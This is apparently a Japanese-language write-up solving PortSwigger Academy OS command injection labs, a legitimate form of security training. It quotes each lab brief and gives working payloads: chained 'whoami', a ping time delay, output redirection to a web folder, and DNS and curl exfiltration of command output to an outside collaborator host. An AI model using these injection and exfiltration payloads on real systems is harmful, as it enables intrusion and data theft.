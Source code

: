 # OS Command Injection


## Lab: OS command injection, simple case

### Overview
```text
This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.
```

https://portswigger.net/web-security/os-command-injection/lab-simple

### Analyze & Exploit

やるだけ。

payload: `&&whoami`

![](./images/README_231103_164318.png)

## Lab: Blind OS command injection with time delays

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
```

https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

## Analyze && Exploit

今回脆弱な箇所は、feedback機能らしいです。

![](./images/README_231103_165138.png)

ありがたいことにcsrfトークンは使いまわしできるので、Repeaterで何度も送信できます。

![](./images/README_231103_165157.png)

Blind Os command なので、出力は表示されません。

例えば、`echo hoge`としても`hoge`は出力されないということです

この時、時間遅延を起こせば脆弱性が存在しているか否かがわかります。

つまり、`||ping -c 5 localhost||`このときの`c`に指定している値をすべてのパラメータに入ればヨシです。

基本全てのパラメータで脆弱性を確認できます。

## Lab: Blind OS command injection with output redirection

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Analyze & Exploit

feedback機能に脆弱性があるかを確認していきます。

![](./images/README_231103_171309.png)

以下の結果から、脆弱性があることがわかります。

![](./images/README_231103_172130.png)

今回は、`/var/www/images`にリダイレクトさせる必要があるので、

```bash
whoami >> /var/www/images/whoami.txt
```

とすれば良さそうです。

つまり、payloadは以下になります。

```bash
email=||whoami >> /var/www/images/whomai.txt||
```

![](./images/README_231103_172353.png)

後は、`images?filename=whomai.txt`にアクセスすれば良いです。

![](./images/README_231103_172737.png)

**whoamiのタイポです**

## Blind OS command injection with out-of-band interaction

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

### Analyze && Exploit

BurpSuite Proでなければできないはずです。

`solver`
```bash
email=x||nslookup+<Burp Domain>||
```

##  Blind OS command injection with out-of-band data exfiltration

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

### Analyze && Exploit

例えば、

```bash
curl https://hoge.com?fuga=`whomai`
```

のようにしたらaccess logには`whomai`の結果が表示されます。

それを利用してwhoamiの結果を取得しようというものです。

```bash
a@ex.com||nslookup `whoami`.<burp-domain>||
```

![](./images/README_231103_175405.png)

こうすることでwhoamiの結果がわかります。

```text
The Collaborator server received a DNS lookup of type A for the domain name peter-LQUKCl.<redacted>
```

`peter-LQUKCL`が答えです。


